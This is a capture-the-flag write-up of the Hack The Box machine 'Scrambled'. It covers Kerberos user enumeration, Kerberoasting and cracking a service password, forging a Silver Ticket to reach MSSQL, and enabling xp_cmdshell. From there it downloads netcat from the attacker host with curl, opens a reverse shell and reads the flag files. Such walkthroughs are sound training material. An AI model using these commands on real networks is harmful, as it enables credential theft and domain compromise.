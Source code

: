 # HTB - Scrambled

**IP Address:** `10.10.11.168`  
**OS:** Windows  
**Difficulty:** Hard  
**Tags:** #LDAP, #Kerberos, #SMB, #MSSQL, #SPN, #SilverTicket, #TGS, #SQLShell, #PrivilegeEscalation

---

## 1. Initial Enumeration

### 1.1 Ping

```bash
ping 10.10.11.168
```

✅ Host is up

---

### 1.2 Port Scanning

Initial full port scan:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.168 -oG allPorts
```

Extracted open ports using custom script:

```
53, 80, 88, 135, 139, 389, 445, 464, 593, 636, 1433, 3268, 3269, 4411, 5985, 9389, 49666, 49673, 49674, 49716, 49720
```

Deep scan:

```bash
nmap -sCV -p<ports_above> 10.10.11.168 -oN targeted
```

---

## 2. LDAP & Domain Discovery

Identified domains:

- `scrm.local`
    
- `DC1.scrm.local`
    

Added to `/etc/hosts`.

Tried enumeration with `crackmapexec`, `rpcclient`, `smbmap`, `smbclient` – all failed due to lack of NTLM support.

LDAP enumeration:

```bash
ldapsearch -x -H ldap://10.10.11.168 -s base namingcontexts
ldapsearch -x -H ldap://10.10.11.168 -b 'DC=scrm,DC=local'
```

No interesting results.

---

## 3. Web Enumeration

Visited the web interface. It explicitly states:

> NTLM authentication has been disabled.

Under "Contact IT", discovered user: `ksimpson`

Enumerated user with Kerbrute:

```bash
kerbrute userenum --dc 10.10.11.168 -d scrm.local users
```

✅ `ksimpson` is a valid user.

---

## 4. Kerberos & SMB Access

Tried accessing SMB with assumed credentials (`ksimpson:ksimpson`):

```bash
impacket-smbclient -k scrm.local/ksimpson:ksimpson@DC1.scrm.local
```

✅ Successfully accessed shared folder `Public`

Downloaded a `.pdf` containing service ticket (SPN) information.

Attempted to get SPN ticket:

```bash
GetUserSPNs.py scrm.local/ksimpson -k -dc-ip 10.10.11.168 -dc-host dc1.scrm.local -request
```

Had to:

- Install `kinit`
    
- Configure `/etc/krb5.conf`
    
- Use `klist` to verify ticket
    

✅ Recovered hash for user `sqlsvc`

Cracked with John:

```bash
john -w:/usr/share/wordlists/rockyou.txt hash
```

🔑 Password: `Pegasus60`

---

## 5. MSSQL Access

Login failed via NTLM:

```bash
mssqlclient.py scrm.local/sqlsvc:Pegasus60@10.10.11.168
```

Generated TGT with:

```bash
getTGT.py scrm.local/sqlsvc:Pegasus60
export KRB5CCNAME=sqlsvc.ccache
```

Tried login with Kerberos:

```bash
mssqlclient.py dc1.scrm.local -k
```

❌ Blocked

---

## 6. Silver Ticket Attack

A Golden Ticket attack would require vulnerable users or direct KDC communication, so opted for a **Silver Ticket** approach.

### 6.1 Requirements:

- NTLM hash for `sqlsvc` → Converted from password using online tool
    
- Domain SID → Extracted with:
    

```bash
getPac.py scrm.local/ksimpson:ksimpson -targetUser Administrator
```

- SPN → Found earlier
    

### 6.2 Generate TGS

```bash
ticketer.py -spn MSSQLSvc/dc1.scrm.local -domain-sid <SID> -dc-ip dc1.scrm.local -nthash <ntlm> Administrator -domain scrm.local
```

Export ticket:

```bash
export KRB5CCNAME=$(pwd)/Administrator.ccache
```

Connect to SQL:

```bash
mssqlclient.py scrm.local/Administrator@dc1.scrm.local -k -no-pass
```

✅ Access granted

---

## 7. Shell Access & Privilege Escalation

Enabled command shell in MSSQL:

```bash
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Uploaded `nc.exe` via HTTP server:

```bash
xp_cmdshell "curl 10.10.14.18/nc.exe -o C:\Temp\netcat.exe"
```

Listener:

```bash
rlwrap nc -nlvp 443
```

Reverse shell command:

```bash
xp_cmdshell "C:\Temp\netcat.exe -e cmd 10.10.14.18 443"
```

✅ Got a shell as SQL service user

---

## 8. User and Root Flag

Could not escalate directly via JuicyPotato (multiple ports failed), so retrieved flags directly from SQL:

```bash
SELECT * FROM OPENROWSET(BULK N'C:/Users/miscsvc/Desktop/user.txt', SINGLE_CLOB) AS Contents
SELECT * FROM OPENROWSET(BULK N'C:/Users/Administrator/Desktop/root.txt', SINGLE_CLOB) AS Contents
```

🏁 **User and Root flags retrieved**

---

# ✅ MACHINE COMPLETE